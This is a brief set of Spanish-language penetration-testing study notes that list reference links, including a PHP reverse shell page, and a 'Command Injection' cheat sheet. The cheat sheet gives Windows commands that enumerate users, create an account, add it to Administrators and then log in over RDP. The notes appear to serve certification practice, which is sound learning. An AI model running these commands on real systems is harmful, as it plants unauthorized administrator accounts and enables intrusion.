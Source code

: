 > Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

<br>

### Command Injection

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*
